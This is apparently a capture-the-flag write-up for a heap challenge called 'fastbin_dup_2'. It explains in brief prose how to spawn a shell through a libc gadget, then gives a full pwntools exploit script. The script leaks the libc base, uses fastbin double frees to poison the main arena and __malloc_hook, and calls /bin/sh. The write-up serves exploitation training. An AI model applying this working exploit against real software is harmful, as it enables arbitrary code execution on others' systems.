


the challenge provide no target, which mean that the target is spawning a shell

the challenge provide puts@glibc, thus guilding us toward using one glibc gadget to spawn a shell




looking at the libc, we discover a gadget that take values from Irsp+0x50|... as argv, which is in our array of heap pointer, which meant that we can freely control the argv by editing the heap

with that, we can spawn a shell by using "/bin/sh -s ...." with "-s" to eliminate trash argv

and for actually executing the gadget, we can poison the malloc hook by poisoning the main arena and overwrite the top chunk value 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("fastbin_dup_2")
libc = ELF("../.glibc/glibc_2.30_no-tcache/libc.so.6")

context.binary = exe
# context.log_level="debug"

zero=b"\x00"

script='''
    catch syscall execve
    c
'''

def malloc(sz, data):
    data=flat(
        data,
        length=sz,
        filler=zero
    )
    r.recvuntil("> ")
    r.sendline(str(1).encode())
    r.recvuntil("size: ")
    r.sendline(str(sz).encode())
    try:
        r.recvuntil("data: ", timeout=0.5)
        r.send(data)
    except:
        pass

def free(id):
    r.recvuntil("> ")
    r.sendline(str(2).encode())
    r.recvuntil("index: ")
    r.sendline(str(id).encode())

def main():
    global r
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process([
        "strace",
        "-f",
        "-s", "100",
        "-e", "trace=execve,read",
        exe.path
    ])

    r.recvuntil("puts() @ 0x")
    data=r.recvline()
    data=data[:12]

    puts_libc=int(data,16)
    libc_base=puts_libc-libc.sym["puts"]
    callshell=libc_base+0xe1fa1

    malloc(0x40, zero)
    malloc(0x40, zero)

    free(0)
    free(1)
    free(0)

    malloc(0x50, zero)
    malloc(0x50, zero)

    free(2)
    free(3)
    free(2)

    main_arena=libc.sym.main_arena+libc_base
    __malloc_hook=libc.sym.__malloc_hook+libc_base

    payload=flat(
        main_arena+40
    )

    malloc(0x40, payload)

    payload=flat(
        0x51
    )

    malloc(0x50, payload)

    payload=flat(
        "/bin/sh"
    )

    malloc(0x40, payload)
    malloc(0x40, zero)
    malloc(0x50, zero)
    malloc(0x50, zero)

    payload=flat(
        0,
        0,
        0,
        0,
        0,
        __malloc_hook-0x24,
    )

    malloc(0x40,payload)

    payload=zero*4+flat(
        0,
        0,
        callshell
    )

    malloc(0x40,payload)

    r.interactive()


if __name__ == "__main__":
    main()

```